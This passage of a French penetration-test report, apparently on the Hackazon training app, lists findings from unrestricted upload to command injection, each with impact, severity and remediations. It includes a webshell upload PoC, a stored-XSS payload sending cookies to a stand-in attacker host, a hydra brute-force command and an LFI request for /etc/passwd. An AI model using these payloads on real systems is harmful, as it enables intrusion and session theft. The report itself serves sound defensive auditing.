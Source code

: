 
### V-003 — Upload non restreint → RCE

**PoC :** Upload webshell `.php` → `/user_pictures/zebi.php?cmd=ls`

**Impact :** RCE sous www-data.
**Criticité :** Critique
**Remédiation :** Interdire exécution dans `/uploads`, stocker hors webroot, filtrer MIME/extension, scanner fichiers.
**Priorité :** J+0

---

### V-004 — XSS stocké (Contact / FAQ)

```html
<script>fetch('http://attacker:8080/?cookie='+document.cookie)</script>
```

**Impact :** Vol de session et usurpation.
**Criticité :** Critique
**Remédiation :** Encoder sorties, CSP restrictive, cookies HttpOnly.
**Priorité :** J+0 → J+7

---

### V-005 — Brute-force sans limitation

```bash
hydra -l test_user -P rockyou.txt hackazon.trackflaw.com https-post-form "/user/login:username=test_user&password=^PASS^:F=incorrect"
```

**Impact :** Compromission de comptes faibles.
**Criticité :** Critique
**Remédiation :** Rate limiting, backoff exponentiel, 2FA, journalisation.
**Priorité :** J+0

---

### V-006 — LFI (Local File Inclusion)

```bash
help_articles?page=/etc/passwd%00
```

**Impact :** Lecture de fichiers système sensibles.
**Criticité :** Critique
**Remédiation :** Liste blanche de pages, bloquer `../`, vérifier `realpath()`.
**Priorité :** J+0 → J+7

---

### V-007 — Command Injection

**Impact :** Exécution de commandes système.
**Criticité :** Critique
**Remédiation :** Éviter `system()`, valider les arguments, sandbox.
**Priorité :** J+0

---